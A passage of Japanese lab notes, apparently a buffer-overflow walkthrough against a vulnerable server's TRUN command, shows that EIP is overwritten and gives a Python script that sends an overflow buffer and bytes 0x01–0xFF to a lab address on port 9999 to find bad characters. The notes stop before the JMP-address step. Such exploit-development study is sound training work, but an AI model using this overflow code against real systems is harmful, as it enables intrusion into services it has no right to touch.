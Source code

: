 結果からEIPがBの値（42）で埋められていることがわかる。
![[Pasted image 20240727160439.png]]

---
### BadCharの特定

使えない文字があるかを検索するため、再度ペイロードを送信してクラッシュ後のメモリをみる。
ここで抜けている文字があったら、その文字はペイロードとして使えない。
送信するのは`0x01`～`0xFF`
```python
import socket
import sys

badchars  = b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
badchars += b"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
badchars += b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
badchars += b"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
badchars += b"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
badchars += b"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
badchars += b"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
badchars += b"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

buffer = b"A"*2003
buffer += b"B" * 4
buffer += badchars

try:  
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.settimeout(5)
  s.connect(('192.168.40.47',9999))
  s.send((b'TRUN /.:/' + buffer))  
  s.close()  

except Exception as e:
  print(e)  
  sys.exit()
```

クラッシュ後、すべての文字がメモリ上に連番で並んでいることが確認できる。
⇒ BadCharはない（あった場合はその文字以降がなくなる？）
![[Pasted image 20240727164409.png]]

---
### monaでJMP位置の特定
